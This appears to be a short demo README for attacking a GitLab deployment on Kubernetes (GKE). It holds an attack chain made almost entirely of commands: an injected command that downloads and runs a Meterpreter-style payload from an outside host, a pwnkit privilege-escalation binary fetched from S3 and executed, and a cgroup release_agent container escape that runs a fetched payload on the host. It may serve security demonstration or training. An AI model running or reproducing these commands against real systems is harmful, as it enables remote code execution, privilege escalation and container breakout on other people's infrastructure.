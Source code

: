 ## kubernetes cluster (gke)

gcloud auth configure-docker

docker tag gitlab-escape:latest gcr.io/mondoo-demo-sap/gitlab-escape (docker tag gitlab-escape:latest gcr.io/<project-id>/gitlab-escape)

docker push gcr.io/mondoo-demo-sap/gitlab-escape (docker push gcr.io/<project-id>/gitlab-escape)

```
;curl -vk http://btc.atomic111.de:8001/met-container -o /tmp/met

;chmod 777 /tmp/met

;/tmp/met
```

```bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es
```

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://btc.atomic111.de:8001/met-host -o /run/met" >> /cmd
echo "chmod 777 /run/met" >> /cmd
echo "/run/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
